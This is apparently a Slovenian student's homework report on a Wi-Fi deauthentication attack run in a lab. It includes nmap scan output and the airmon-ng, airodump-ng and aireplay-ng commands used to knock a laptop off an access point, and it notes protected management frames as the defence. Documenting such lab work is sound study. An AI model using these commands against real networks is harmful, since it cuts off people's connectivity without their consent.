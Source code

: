 # 3. domača naloga

```
 _              ___ _____ 
| |____      __/ _ \___ / 
| '_ \ \ /\ / / | | ||_ \ 
| | | \ V  V /| |_| |__) |
|_| |_|\_/\_/  \___/____/ 

2. homework for BMO
Author: Lan Vukušič
Date: 6.apr 2022

Deauth attack.
```
  

## Postopek za deautentikacijo

- poiščemo mac naslove tarče ter AP-ja
  - `sudo nmap 192.168.252.52/24`
  

``` Starting Nmap 7.80 ( https://nmap.org ) at 2022-04-10 13:47 CEST
Nmap scan report for _gateway (192.168.252.52)
Host is up (0.0044s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain
MAC Address: 8E:9C:2E:44:BE:EE (Unknown)

Nmap scan report for 192.168.252.105
Host is up (0.017s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
8500/tcp open  fmtp
9080/tcp open  glrpc
MAC Address: 0A:6A:9D:8C:45:87 (Unknown)

Nmap scan report for 192.168.252.134
Host is up (0.015s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5357/tcp open  wsdapi
MAC Address: B0:FC:36:D0:99:3B (CyberTAN Technology)

Nmap scan report for lan-XPS (192.168.252.252)
Host is up (0.000010s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (4 hosts up) scanned in 57.02 seconds

```

Mac tarče: **B0:FC:36:D0:99:3B**
MAC ap-ja: **8E:9C:2E:44:BE:EE**

- Kartico damo v monitoring mode
  - Ubijemo konfliktne procese
    - `sudo airmon-ng check kill`
  - Zaženemo wirodump-ng, za zajem paketov
    - `sudo airodump-ng -c 11 --bssid 8E:9C:2E:44:BE:EE wlan0mon -w wn`
- Zaženemo aireply-ng
  - `sudo aireplay-ng --deauth 100 wlan0mon -a 8E:9C:2E:44:BE:EE -c B0:FC:36:D0:99:3B`
- Ko se napad zaključi lahko ugasnemo **airodump-ng**, ki zgenerira .cap paket
- .cap paket odpremo z wiresharkom
  - `wireshark wn-01.cap`

![wireshark](wireshark.png)

- Označeni so deavtentikacijski paketi.

## Uspešnost napada

Napad je bil uspešen saj je prenosnik (tarča) me napadom izgubila internetno povezavo.
Zavarujemo se lahko z zaščitenimi **management okvirji**

## Poskus napada na zaščiteno dostopno točko

Samsung telefon A71 podpira zaščito **management frame-ov** na dostopnih točkah.  

### poskus napada na widnwos10 laptop

Po izvedenem napadu na dostopno točko, je tarči **vseeno** padla internetna povezava (??)  
Predvidevam da se je to zgodilo, ker tarča na windows10 sistemu, zaščitenih okvirjev ne podpira.

### poskus napada na samsung S20-FE

Tarčo sem izbral za to, ker ima isto programsko opremo kot moj telefon. Predivdeval sem, da poddpira povezavo z zaščitenimi okvirji, če lahko postavi tako dotopno točko.  

Hipotezo sem testiral tako, da sem isti napad ponovil. Napad je bil izveden na MAC naaslov **0A:6A:9D:8C:45:87**  

```
 CH 11 ][ Elapsed: 2 mins ][ 2022-04-10 14:43 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH 

 8E:9C:2E:44:BE:EE  -43  11     1557    12053  238  11  180   WPA2 CCMP   PSK  

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Pro

 8E:9C:2E:44:BE:EE  0A:6A:9D:8C:45:87  -49    1e- 6e     0    16047             
 8E:9C:2E:44:BE:EE  B0:FC:36:D0:99:3B  -47    0e- 6e     0    11931             
 (not associated)   70:2E:D9:17:AB:12  -89    0 - 1      0       10             
```

Napad ni bil uspešen. Napravaa ni izgubila internetne povezave. Poslani paketi so vidni iz naslednjega zajema ekrana.

![wireshark](wireshark02.png)
